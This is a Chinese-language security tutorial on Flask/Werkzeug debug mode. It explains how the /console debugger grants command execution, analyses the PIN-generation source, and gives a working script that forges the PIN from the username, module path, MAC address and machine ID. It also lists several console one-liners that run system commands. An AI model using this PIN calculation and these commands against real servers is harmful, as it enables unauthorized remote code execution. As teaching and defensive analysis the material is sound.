


### 0x00 Flask PIN码简要介绍
Flask 在使用debug模式启动时, 会主动生成一个PIN码, PIN码用于debug模式下的身份验证. 在debug模式下启动flask, PIN码以明文形式显示在控制台例如:
```shell
 * Debugger is active!
 * Debugger PIN: 675-581-558
```
Flask以debug模式启动时, werkzeug.debug会通过__init__自动起一个/console的站点路由用于WEB页面的debug调试, 访问/console时需要输入PIN码进行验证获取调试器控制台权限进而获取系统权限。
PIN码的生成依赖于两个列表(下面会具体分析): 
```python
1.probably_public_bits [
    username,
    modname,
    getattr(app, "__name__", type(app).__name__),
    getattr(mod, "__file__", None)
]

2.private_bits [
    str(uuid.getnode()),
    get_machine_id()
]
```
这6个依赖项分别代表: 用户名, 模块名, app名, 模块文件路径, MAC地址, 主机ID. 在同一机器, 同一项目下, 这些变量是固定的, 所以PIN码的生成结果是固定的, 可以通过分析PIN码的生成过程来获取PIN码。

### 0x01 PIN码利用-Console控制台执行指令
示例代码:
```python
from flask import Flask
app = Flask(__name__)

@app.route("/")
def hello():
    return 'HelloWorld'

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080, debug=True)

# python3 app.py
# version: python3.10.12
```
启动flask后, 访问/console页面, 输入PIN码, 获取控制台权限, 可以执行任意python指令



下面列举几个可以在控制台执行系统指令的方法
```python
[console ready]
1. os
>>> import os
>>> os.popen('whoami').read()
'fxe00\n'

2. subprocess.check_output
>>> import subprocess
>>> subprocess.check_output(['whoami'])
b'fxe00\n'

3. subprocess.run
>>> import subprocess
>>> subprocess.run(['whoami'], capture_output=True, text=True)
CompletedProcess(args=['whoami'], returncode=0, stdout='fxe00\n', stderr='')

4. subprocess.Popen
>>> import subprocess
>>> subprocess.Popen(['whoami'], stdout=subprocess.PIPE).stdout.read()
b'fxe00\n'

5. find classes
>>> ''.__class__.__base__.__subclasses__()[137].__init__.__globals__['popen']('whoami').read() 
'fxe00\n'
```

### 0x02 PIN码生成分析
这里主要分析两个问题:
1. 为什么是/console路径
2. PIN码具体是如何生成的

**为什么是/console路径?**
分析流程栈如下:
```python
app.run(host="0.0.0.0", port=8080, debug=True) ->
run_simple(t.cast(str, host), port, self, **options) ->
DebuggedApplication(application, evalex=use_evalex) ->
def __init__(
    self,
    app: WSGIApplication,
    evalex: bool = False,
    request_key: str = "werkzeug.request",
    console_path: str = "/console",
    console_init_func: t.Callable[[], dict[str, t.Any]] | None = None,
    show_hidden_frames: bool = False,
    pin_security: bool = True,
    pin_logging: bool = True,
) -> None:
...
```
在DebuggedApplication类初始化时会设置console_path为/console, 启用/console路由作为web端的调试控制台。

**PIN码具体是如何生成的?**
分析流程栈如下:

```python
app.run(host="0.0.0.0", port=8080, debug=True) ->
run_simple(t.cast(str, host), port, self, **options) ->
DebuggedApplication(application, evalex=use_evalex) ->
__init__ ->
def pin(self) -> str | None:
    if not hasattr(self, "_pin"):
        pin_cookie = get_pin_and_cookie_name(self.app)
        self._pin, self._pin_cookie = pin_cookie  # type: ignore
    return self._pin
```

get_pin_and_cookie_name(self.app)返回一个二元的元组, 第一个元素是PIN码, 第二个元素是cookie名称, 由pin_cookie接受返回值后, 赋值给self._pin和self._pin_cookie, 最后返回self._pin即为PIN码。

**get_pin_and_cookie_name(self.app)**
```python
def get_pin_and_cookie_name(
    app: WSGIApplication,
) -> tuple[str, str] | tuple[None, None]:
    """Given an application object this returns a semi-stable 9 digit pin
    code and a random key.  The hope is that this is stable between
    restarts to not make debugging particularly frustrating.  If the pin
    was forcefully disabled this returns `None`.

    Second item in the resulting tuple is the cookie name for remembering.
    """
    pin = os.environ.get("WERKZEUG_DEBUG_PIN")
    rv = None
    num = None

    # Pin was explicitly disabled
    if pin == "off":
        return None, None

    # Pin was provided explicitly
    if pin is not None and pin.replace("-", "").isdecimal():
        # If there are separators in the pin, return it directly
        if "-" in pin:
            rv = pin
        else:
            num = pin

    modname = getattr(app, "__module__", t.cast(object, app).__class__.__module__)
    username: str | None

    try:
        # getuser imports the pwd module, which does not exist in Google
        # App Engine. It may also raise a KeyError if the UID does not
        # have a username, such as in Docker.
        username = getpass.getuser()
    except (ImportError, KeyError):
        username = None

    mod = sys.modules.get(modname)

    # This information only exists to make the cookie unique on the
    # computer, not as a security feature.
    probably_public_bits = [
        username,
        modname,
        getattr(app, "__name__", type(app).__name__),
        getattr(mod, "__file__", None),
    ]

    # This information is here to make it harder for an attacker to
    # guess the cookie name.  They are unlikely to be contained anywhere
    # within the unauthenticated debug page.
    private_bits = [str(uuid.getnode()), get_machine_id()]

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode()
        h.update(bit)
    h.update(b"cookiesalt")

    cookie_name = f"__wzd{h.hexdigest()[:20]}"

    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
    if num is None:
        h.update(b"pinsalt")
        num = f"{int(h.hexdigest(), 16):09d}"[:9]

    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num

    return rv, cookie_name
```

流程分析:
这个函数 get_pin_and_cookie_name 的目的是生成一个用于 Werkzeug 调试器的 PIN 码和一个用于记住调试器状态的 cookie 名称。这个函数接受一个 WSGI 应用程序对象作为参数，并返回一个包含 PIN 码和 cookie 名称的元组。如果 PIN 被明确禁用，则返回 (None, None)。

以下是函数的详细步骤：

1. 获取环境变量中的 PIN：函数首先尝试从环境变量 WERKZEUG_DEBUG_PIN 中获取 PIN 码。

:::note
如果可以控制环境变量, 也就可以控制PIN码。
:::

2. 处理 PIN 码：

- 如果 PIN 被设置为 "off"，则函数返回 (None, None)，表示禁用 PIN。
- 如果提供了 PIN 并且 PIN 是数字（可能包含连字符），则直接使用这个 PIN。
- 如果 PIN 只包含数字（没有连字符），则将其转换为一个数字。

3. 获取用户名：尝试获取当前用户的用户名。如果在某些环境中（如 Google App Engine 或 Docker）无法获取用户名，用户名将设置为 None。

4. 生成 cookie 名称：

- 收集可能公开的信息 `probably_public_bits`（用户名、模块名、应用程序名、模块文件路径）和 私密的信息 `private_bits`（机器的 UUID）。
- 使用 SHA-1 哈希算法，将这些信息合并并生成一个哈希值。
- 将哈希值的前 20 个字符用作 cookie 名称的一部分，格式为 __wzd<hash>。

5. 生成 PIN 码：

- 如果没有提供 PIN 或需要生成 PIN，则在哈希过程中加入额外的盐值（"pinsalt"），以确保生成的 PIN 码是唯一的。
- 将 SHA1 的哈希值转换为十进制数，并取前 9 位数字作为 PIN 码。
- 为了使 PIN 码更易于记忆，将 PIN 码分成 5、4 或 3 位的组(根据是否可以整除来确定组大小)，用连字符分隔。

:::note
计算哈希时, 不同版本的 python 使用的哈希算法可能不同, 分析时使用的python版本为3.10.12, 为SHA1哈希算法, 据其他分析文章, 小于等于3.8版本使用的是MD5哈希算法。
:::

6. 返回结果：函数返回生成的 PIN 码和 cookie 名称。

函数中的 rv 变量用于存储最终的 PIN 码。如果环境变量中提供了 PIN，则 rv 直接设置为该值。如果没有提供 PIN，则根据哈希值生成一个 PIN 码，并格式化为易记的格式。

:::important
根据上述分析, 在已知 probably_public_bits 和 private_bits 两个列表内容, 即已知用户名、模块名、应用程序名、模块文件路径和机器的 UUID, 可以手动计算出 PIN 码。
:::

构建过程所需变量截图如下:


0x03 手动计算 PIN 码
===================
```python
import hashlib
from itertools import chain


def calc_flask_pin(
        probably_public_bits,
        private_bits
) -> str:
    rv = None
    num = None

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode()
        h.update(bit)
    h.update(b"cookiesalt")

    if num is None:
        h.update(b"pinsalt")
        num = f"{int(h.hexdigest(), 16):09d}"[:9]

    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = "-".join(
                    num[x: x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num

    return rv


if __name__ == "__main__":
    probably_public_bits = [
        'fxe00',  # username,
        'flask.app',  # modname,
        'Flask',  # getattr(app, "__name__", type(app).__name__),
        'D:\\IDESWorkPlace\\Pycharm\\ProjectTest\\venv\\lib\\site-packages\\flask\\app.py'
        # getattr(mod, "__file__", None),
    ]

    private_bits = [
        '279408190579',  # str(uuid.getnode()), 
        b'4e2c9c26-76xx-44xx-bbxx-9xxx7bd84887'  # get_machine_id()
    ]
    pin = calc_flask_pin(probably_public_bits, private_bits)
    print(pin)

```